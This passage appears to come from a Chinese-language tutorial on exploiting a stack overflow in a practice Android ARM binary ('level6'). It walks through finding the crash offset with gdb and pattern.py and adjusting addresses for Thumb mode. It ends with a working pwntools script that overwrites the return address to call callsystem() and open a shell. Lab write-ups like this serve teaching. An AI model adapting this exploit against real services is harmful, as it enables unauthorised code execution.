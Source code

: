 我们先在电脑上运行python脚本：

```
#!bash
[pc]$ python test.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
… 
```

然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：

```
#!bash
[adb]# ./gdb --pid=4895

GNU gdb 6.7
Copyright (C) 2007 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
……
Loaded symbols for /system/lib/libm.so
0xb6eff268 in read () from /system/lib/libc.so
(gdb) c
Continuing. 
```

然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：

```
#!bash
Program received signal SIGSEGV, Segmentation fault.
0x41346540 in ?? ()
(gdb) 
```

因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1： `0x41346540+1 = 0x41346541` 。然后用pattern.py计算一下溢出点的位置：

```
#!bash
$ python pattern.py offset 0x41346541
hex pattern decoded as: Ae4A
132 
```

OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为 `0x00008554` ：

![](http://img1.tuicool.com/zYB36vj.png!web)

因为 `callsystem()` 被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

callsystemaddr = 0x00008554 + 1
payload =  'A'*132 + p32(callsystemaddr)

p.send(payload)

p.interactive() 
```
